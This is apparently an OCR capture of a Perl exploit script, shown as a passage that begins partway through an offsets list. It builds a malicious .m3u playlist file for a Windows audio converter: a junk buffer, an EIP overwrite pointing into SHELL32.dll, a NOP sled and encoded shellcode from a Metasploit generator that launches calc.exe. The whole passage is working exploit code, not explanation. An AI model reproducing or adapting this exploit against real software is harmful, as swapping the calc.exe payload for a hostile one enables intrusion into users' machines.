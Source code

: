 ```perl
'C:\Documents and Settings\Administrator\Desktop\\', # offset at 26076
'C:\Documents and Settings\All Users\Desktop\\', # offset at 26080
'C:\\'); # offset at 26121

my $eip = pack('V', 0x7c9f38f6); # call ebp C:\Windows\System32\SHELL32.dll

$i = 0;
foreach (@offsets) {
$curr_offset = 26121 - (length($_)) + 3; # +3 for shared "c:\"
$prev_offset = 26121 - (length($offsets[$i-1])) + 3;

if ($i eq 0){
# if it's the first offset build the junk buffer from 0
$junk = "\x41" x $curr_offset;
# append the eip overwrite to the first offset
$offset = $junk.$eip
} else {
# build a junk buffer relative to the last offset
$junk = "\x41" x (($curr_offset - $prev_offset) - 4);
# append new junk buffer + eip to the previously constructed offset
$offset = $offset.$junk.$eip;
}

$i = $i + 1; # increment index counter

}

my $nops = "\x90" x 21400; # offset to shellcode at call ebp

# Calc.exe payload [size 227]
# msfpayload windows/exec CMD=calc.exe R |
# msfencode -e x86/shikata_ga_nai -c 1 -b '\x00\x0a\x0d\xff'
my $shell = "\xdb\xcf\xb8\x27\x17\x16\x1f\xd9\x74\x24\xf4\x5f\x2b\xc9" .
"\xb1\x33\x31\x47\x17\x83\xef\xfc\x03\x60\x04\xf4\xea\x92" .
"\xc2\x71\x14\x6a\x13\xe2\x9c\x8f\x22\x30\xfa\xc4\x17\x84" .
"\x88\x88\x9b\x6f\xdc\x38\x2f\x1d\xc9\x4f\x98\xa8\x2f\x7e" .
"\x19\x1d\xf0\x2c\xd9\x3f\x8c\x2e\x0e\xe0\xad\xe1\x43\xe1" .
"\xea\x1f\xab\xb3\xa3\x54\x1e\x24\xc7\x28\xa3\x45\x07\x27" .
"\x9b\x3d\x22\xf7\x68\xf4\x2d\x27\xc0\x83\x66\xdf\x6a\xcb" .
"\x56\xde\xbf\x0f\xaa\xa9\xb4\xe4\x58\x28\x1d\x35\xa0\x1b" .
"\x61\x9a\x9f\x94\x6c\xe2\xd8\x12\x8f\x91\x12\x61\x32\xa2" .
"\xe0\x18\xe8\x27\xf5\xba\x7b\x9f\xdd\x3b\xaf\x46\x95\x37" .
"\x04\x0c\xf1\x5b\x9b\xc1\x89\x67\x10\xe4\x5d\xee\x62\xc3" .
"\x79\xab\x31\x6a\xdb\x11\x97\x93\x3b\xfd\x48\x36\x37\xef" .
"\x9d\x40\x1a\x65\x63\xc0\x20\xc0\x63\xda\x2a\x62\x0c\xeb" .
"\xa1\xed\x4b\xf4\x63\x4a\xa3\xbe\x2e\xfa\x2c\x67\xbb\xbf" .
"\x30\x98\x11\x83\x4c\x1b\x90\x7b\xab\x03\xd1\x7e\xf7\x83" .
"\x09\xf2\x68\x66\x2e\xa1\x89\xa3\x4d\x24\x1a\x2f\xbc\xc3" .
"\x9a\xca\xc0";

my $sploit = $offset.$nops.$shell;
my $fill = "\x43" x ($buffsize - (length($sploit))); # fill remainder
my $buffer = $sploit.$fill; # build final buffer

# write the exploit buffer to file
my $file = "asx2mp3.m3u";
open(FILE, ">$file");
print FILE $buffer;
close(FILE);
print "Exploit file created [" . $file . "]\n";
print "Buffer size: " . length($buffer) . "\n";
```
